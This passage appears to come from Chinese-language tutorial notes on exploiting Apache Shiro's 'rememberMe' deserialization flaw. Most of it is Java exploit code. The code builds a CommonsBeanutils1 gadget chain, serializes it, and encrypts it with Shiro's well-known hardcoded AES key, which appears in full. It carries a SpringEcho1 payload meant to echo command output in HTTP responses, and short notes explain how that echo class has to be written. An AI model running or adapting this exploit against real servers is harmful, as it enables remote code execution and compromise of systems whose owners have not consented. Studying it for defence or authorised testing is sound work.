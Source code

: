 ```java
                String.CASE_INSENSITIVE_ORDER);
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2,
                comparator);
        queue.add("1");
        queue.add("1");
        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{obj, obj});
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();
        return barr.toByteArray();
    }


    public static void main(String[] args) throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.get(SpringEcho1.class.getName());
        // 获取payload
        byte[] payloads = new CommonsBeanutils1Shiro().getPayload(clazz.toBytecode());
        AesCipherService aes = new AesCipherService();
        // base64解码得到shiro常见的硬编码key
        byte[] key = java.util.Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");
        // AES使用key加密payloads
        ByteSource ciphertext = aes.encrypt(payloads, key);
        System.out.printf(ciphertext.toString());

    }
}
```

### shiro回显

SpringEcho1类

- 必须为AbstractTranslet的子类

  - 因此需要实现两个抽象接口：

    ```java
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
    }
    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
    }
    ```

- 接收并响应HTTP请求

  - HttpServletRequest封装了HTTP请求
  - HttpServletResponse封装了HTTP响应
    - 写入完毕后需要调用flush方法
